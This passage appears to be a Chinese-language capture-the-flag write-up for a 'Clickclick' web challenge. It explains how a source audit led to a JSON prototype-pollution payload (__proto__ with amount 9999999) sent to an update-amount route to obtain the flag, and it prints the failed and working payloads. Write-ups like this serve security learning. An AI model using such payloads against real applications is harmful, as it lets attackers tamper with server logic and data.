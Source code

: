 ![alt text](image-1.png)

### 2.Clickclick
源代码审计后发现，点击10000次后会显示一行js代码：
```javascript
 if ( req.body.point.amount == 0 || req.body.point.amount == null) { delete req.body.point.amount }
```
并且每50次会通过update-amount路由，上传一个json文件来确定你的点击次数。
一开始想的是用0的字符串
```JSON
{
  "type": "set",
  "point": {
    "amount": "0"  
  }
}
```
回显"OK"，看起来不可行。
试了试原型链污染
```JSON
{
  "type": "set",
  "point": {
    "amount": 0,
    "__proto__": {
      "amount": 9999999 
    }
  }
}
```
获得flag。